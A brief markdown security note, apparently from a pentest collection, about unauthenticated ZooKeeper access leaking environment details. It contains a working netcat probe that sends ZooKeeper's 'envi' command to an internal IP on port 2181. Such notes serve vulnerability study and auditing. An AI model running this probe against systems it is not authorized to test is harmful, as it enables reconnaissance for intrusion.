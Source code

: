 ![image-20211110010358089](../../../../../Library/Application Support/typora-user-images/image-20211110010358089.png)

ZooKeeper未授权访问，泄露服务环境的详细信息。

echo envi | nc 172.29.237.14 2181